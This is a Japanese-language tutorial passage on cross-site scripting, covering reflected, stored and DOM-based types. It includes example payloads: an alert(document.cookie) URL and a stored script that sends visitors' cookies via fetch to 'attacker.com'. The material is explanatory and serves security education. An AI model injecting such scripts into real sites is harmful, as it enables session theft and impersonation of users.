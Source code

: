 # Cross-Site Scripting (XSS)

Cross-Site Scripting（XSS）は、Webアプリケーションに存在する最も一般的かつ危険な脆弱性の一つであり、攻撃者が悪意のあるスクリプトを正当なWebページに注入し、他のユーザーのブラウザで実行させることを可能にする攻撃手法である。この脆弱性は、アプリケーションがユーザー入力を適切に検証およびエスケープせずに出力する場合に発生し、攻撃者は被害者のセッション情報の窃取、なりすまし、サイトの改ざんなど、様々な悪意のある行動を実行できるようになる。

XSSの本質は、Webアプリケーションがデータとコードを区別できないことにある。HTMLやJavaScriptの文脈において、テキストデータとして扱われるべき内容が実行可能なコードとして解釈されてしまうことで、攻撃者が意図しない動作を引き起こすことが可能となる。この問題は、動的なWebアプリケーションの普及とともに顕在化し、現在でもOWASP Top 10[^1]に継続的にランクインしている重要なセキュリティリスクである。

## XSSの分類と攻撃メカニズム

XSSは、その攻撃の性質と持続性によって主に3つのタイプに分類される。それぞれのタイプは異なる攻撃ベクトルと影響範囲を持ち、防御手法も微妙に異なる。

```mermaid
graph TB
    A[XSS攻撃] --> B[反射型XSS]
    A --> C[蓄積型XSS]
    A --> D[DOM型XSS]
    
    B --> E[リクエスト経由で即座に反映]
    B --> F[永続性なし]
    
    C --> G[データベースに保存]
    C --> H[永続的な脅威]
    
    D --> I[クライアントサイドで発生]
    D --> J[サーバー側のログに残らない]
    
    E --> K[フィッシング攻撃]
    H --> L[大規模な被害]
    J --> M[検出困難]
```

### 反射型XSS（Reflected XSS）

反射型XSSは、最も一般的なXSSの形態であり、悪意のあるスクリプトがHTTPリクエストの一部として送信され、即座にレスポンスに反映される攻撃である。典型的なシナリオでは、攻撃者は悪意のあるリンクを作成し、被害者がそのリンクをクリックすると、スクリプトが実行される。

例えば、検索機能を持つWebアプリケーションで、検索クエリがそのまま結果ページに表示される場合を考える。正常な使用では `https://example.com/search?q=javascript` のようなURLで検索が行われるが、攻撃者は `https://example.com/search?q=<script>alert(document.cookie)</script>` のようなURLを作成し、被害者に送付する。アプリケーションが入力を適切にエスケープしていない場合、このスクリプトは実行され、被害者のクッキー情報が表示される。

反射型XSSの特徴は、攻撃が一時的であり、被害者が悪意のあるリンクにアクセスした瞬間にのみ発生することである。しかし、ソーシャルエンジニアリングと組み合わせることで、大規模な攻撃が可能となる。フィッシングメールに悪意のあるリンクを埋め込み、正規のサイトのように見せかけることで、ユーザーの信頼を悪用することができる。

### 蓄積型XSS（Stored XSS）

蓄積型XSSは、悪意のあるスクリプトがサーバー側のデータベースやファイルシステムに保存され、他のユーザーがそのコンテンツを閲覧する際に実行される攻撃である。この種の攻撃は、掲示板、コメント欄、プロフィールページなど、ユーザー生成コンテンツを扱うシステムで頻繁に発生する。

攻撃の流れは以下のようになる。まず、攻撃者はコメント欄などに `<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>` のような悪意のあるスクリプトを投稿する。このスクリプトはデータベースに保存され、他のユーザーがそのページを閲覧するたびに実行される。結果として、訪問者全員のクッキー情報が攻撃者のサーバーに送信される。


[^1]: OWASP Top 10 Web Application Security Risks: https://owasp.org/www-project-top-ten/
[^2]: Content Security Policy Level 3, W3C Working Draft: https://www.w3.org/TR/CSP3/
[^3]: DOMPurify - DOM-only XSS sanitizer: https://github.com/cure53/DOMPurify
[^4]: Same-origin policy, MDN Web Docs: https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
[^5]: Cross-Origin Resource Sharing (CORS), W3C Recommendation: https://www.w3.org/TR/cors/
[^6]: Kamkar, S. (2005). Technical explanation of The MySpace Worm: https://samy.pl/myspace/tech.html